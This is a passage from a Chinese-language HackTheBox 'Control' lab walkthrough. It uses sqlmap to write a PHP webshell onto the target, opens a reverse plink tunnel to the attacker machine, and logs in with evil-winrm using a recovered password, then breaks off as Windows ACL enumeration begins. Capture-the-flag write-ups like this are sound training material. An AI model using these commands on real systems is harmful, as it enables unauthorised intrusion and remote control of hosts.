 重新利用注入点上传另外一个webshell

```bash
$ sqlmap -r sql.txt --file-write=/root/HackTheBox/Control_10.10.10.167/wolfshell.php --file-dest=c:/inetpub/wwwroot/wolfshell.php
```

So,新的webshell

![image-20200922101928434]({{ site.url }}/assets/Control_167.assets/image-20200922101928434.png)

plink cp到工作目录。并通过新shell上传到 uploads目录

![image-20200922102006228]({{ site.url }}/assets/Control_167.assets/image-20200922102006228.png)

![image-20200922102126615]({{ site.url }}/assets/Control_167.assets/image-20200922102126615.png)



为我们的kali增加一个临时用户。为接下来使用ssh隧道做准备。
 `evilx:evilx`

![image-20200922102233168]({{ site.url }}/assets/Control_167.assets/image-20200922102233168.png)


复制脚本到工作目录
https://raw.githubusercontent.com/Hackplayers/evil-winrm/master/evil-winrm.rb

之前的方法，重连rshell

![image-20200922102832752]({{ site.url }}/assets/Control_167.assets/image-20200922102832752.png)

建立绕墙连接

```bash
plink.exe -R 5985:127.0.0.1:5985 10.10.14.25
```

使用之前新建的临时账户反连接kali

![image-20200922103110859]({{ site.url }}/assets/Control_167.assets/image-20200922103110859.png)

为了权限，su root，输入kali 的root密码
利用root权限，使用之前得到的hector的凭证。得到hector的evil-winRm shell

`hector：l33th4x0rhector`

```bash
ruby evil-winrm.rb -i 127.0.0.1 -u Hector -p 'l33th4x0rhector' -s './' -e './'
```

![image-20200922103235550]({{ site.url }}/assets/Control_167.assets/image-20200922103235550.png)

得到user

![image-20200922103621873]({{ site.url }}/assets/Control_167.assets/image-20200922103621873.png)



windows ACL 即windows的访问控制列表/
使用以下命令查询系统CurrentControlSet下的服务，以及使用的权限。
